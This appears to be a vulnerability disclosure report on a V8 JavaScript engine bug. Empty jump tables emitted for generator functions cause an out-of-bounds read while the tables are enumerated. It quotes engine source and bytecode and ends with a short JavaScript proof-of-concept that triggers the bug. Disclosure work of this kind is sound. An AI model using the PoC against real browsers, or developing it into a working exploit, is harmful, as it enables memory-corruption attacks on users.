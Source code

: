 In the current implementation, the bytecode generator also emits empty jump tables.
https://cs.chromium.org/chromium/src/v8/src/interpreter/bytecode-array-writer.cc?rcl=111e990462823c9faeee06b67c0dcf05749d4da8&l=89

So the bytecode for the example code would be generated as follows:
Code:
function* opt() {
    for (;;)
        if (true) {

        } else {
            yield;  // never richs, never hits BindJumpTableEntry
        }
}

Bytecode:
        ...
         0x35dda532a2a5 @   75 : 90 04 01 01       SwitchOnSmiNoFeedback [4], [1], [1] { }  <<--- SIZE: 1, but EMPTY
        ...


Here's a snippet of JumpTableTargetOffsets::iterator::UpdateAndAdvanceToValid which is used to enumerate a jump table.
void JumpTableTargetOffsets::iterator::UpdateAndAdvanceToValid() {
  if (table_offset_ >= table_end_) return;

  current_ = accessor_->GetConstantAtIndex(table_offset_);
  Isolate* isolate = accessor_->bytecode_array()->GetIsolate();
  while (current_->IsTheHole(isolate)) {
    ++table_offset_;
    ++index_;
    current_ = accessor_->GetConstantAtIndex(table_offset_);
  }
}

If the jump table is empty, table_offset_ may exceed table_end_. As a result, out-of-bounds reads occur.

PoC:
function* opt() {
    for (;;)
        if (true) {

        } else {
            yield;
        }

    for (;;)
        if (true) {

        } else {
            yield; yield; yield; yield; yield; yield; yield; yield;
        }
}

for (let i = 0; i < 100000; i++)
    opt();

This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.